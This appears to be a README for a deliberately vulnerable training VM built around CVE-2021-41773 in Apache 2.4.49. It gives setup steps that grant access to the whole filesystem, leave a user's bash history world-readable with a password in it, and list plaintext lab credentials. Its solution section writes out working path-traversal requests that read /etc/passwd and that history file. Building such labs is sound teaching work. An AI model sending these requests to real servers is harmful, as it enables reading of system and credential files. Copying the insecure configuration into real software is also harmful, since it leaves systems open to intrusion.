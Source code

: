 # CVE-2021-41773 (apache)

Download VM: todo
* Credentials: ```user/user```, ```root/123456```
* SSH disabled
* Debian 11, 2 GB disk

# Agenda

In this work, you have to gain access to what you should not have access to ... Well, or at least find out the title of the new classified materials.

# Setup

*Requirements:*  **2 GB** of disk space for VM.

```bash
sudo apt-get update --allow-releaseinfo-change
sudo apt-get install libapr1-dev libaprutil1-dev libpcre3 libpcre3-dev gcc make autoconf wget 
```

Compile and install httpd

```
wget http://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz
tar -xzf httpd-2.4.49.tar.gz
cd httpd-2.4.49
./configure --enable-cgi
make 
sudo make install
rm -rf ~/httpd-2.4.49
rm -f httpd-2.4.49.tar.gz
```

#### Configure Apache server

Edit **/usr/local/apache2/conf/httpd.conf**

```
sudo nano -c /usr/local/apache2/conf/httpd.conf
```

Find next configuration part:

```
<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride None
    Options None
    Require all granted
</Directory>
```
Add next lines
```
<Directory />
        Require all granted
</Directory>
```

As result you'll will get something like:

```
<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride None
    Options None
    Require all granted
</Directory>
<Directory />
        Require all granted
</Directory>
```



#### Apache service configuration

Change **/etc/systemd/system/httpd.service** (```sudo nano -c /etc/systemd/system/httpd.service```)

```
[Unit]
Description=The Apache HTTP Server

[Service]
Type=forking
ExecStart=/usr/local/apache2/bin/apachectl start
ExecReload=/usr/local/apache2/bin/apachectl graceful
ExecStop=/usr/local/apache2/bin/apachectl stop
PrivateTmp=true


[Install]
WantedBy=multi-user.target
```

Reload nginx config
```
sudo systemctl daemon-reload
sudo systemctl enable httpd
sudo systemctl start httpd
```

#### Uploading and configuring sources


Upload sources to **/usr/local/apache2/htdocs/**

- /usr/local/apache2/htdocs/index.html
- /usr/local/apache2/htdocs/admin/index.html
- /usr/local/apache2/htdocs/admin/Sup3rS3cr3t.html

Make admin folder password protected

```
sudo /usr/local/apache2/bin/htpasswd -c /usr/local/apache2/.htpasswd michael

###user password WUWJYVpX
```

Edit **/usr/local/apache2/conf/httpd.conf**

```
<Directory "/usr/local/apache2/htdocs/admin">
  AuthType Basic
  AuthName "Authentication Required"
  AuthUserFile "/usr/local/apache2/.htpasswd"
  Require valid-user
  Order allow,deny
  Allow from all

</Directory>
```



#### Create user and configure user

```
sudo adduser michael
##set password
```
Make few commands with michael

```
su michael
/usr/local/apache2/bin/htpasswd -c /usr/local/apache2/.htpasswd michael -p WUWJYVpX
exit
```

Make **/home/michael/.bash_history** readable

```
chmod 777 /home/michael/.bash_history
```


## How to check that everything works ?

1. Open the main page. You should see the working app. 


## Solution
https://nvd.nist.gov/vuln/detail/CVE-2021-41773

It's better to user **Burp Suite** to send requests 
1. Get all users from the server 
    ```
    GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd
    ```
2. Get Michael .bash_history and find his password
    ```
    GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/home/michael/.bash_history
    ```



